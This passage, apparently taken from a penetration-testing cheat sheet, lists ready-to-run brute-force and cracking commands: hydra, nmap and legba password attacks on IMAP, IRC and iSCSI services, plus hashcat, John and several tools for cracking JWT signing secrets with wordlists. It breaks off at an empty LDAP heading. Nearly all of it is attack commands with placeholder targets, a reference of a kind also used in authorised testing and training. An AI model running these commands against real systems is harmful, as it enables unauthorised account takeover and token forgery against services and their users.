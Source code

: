 ```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
legba imap --username user --password data/passwords.txt --target localhost:993
```

### IRC

```bash
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```

### ISCSI

```bash
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```

### JWT

```bash
#hashcat
hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt

#https://github.com/Sjord/jwtcrack
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#John
john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256

#https://github.com/ticarpi/jwt_tool
python3 jwt_tool.py -d wordlists.txt <JWT token>

#https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8

#https://github.com/mazen160/jwt-pwn
python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt

#https://github.com/lmammino/jwt-cracker
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
```

### LDAP
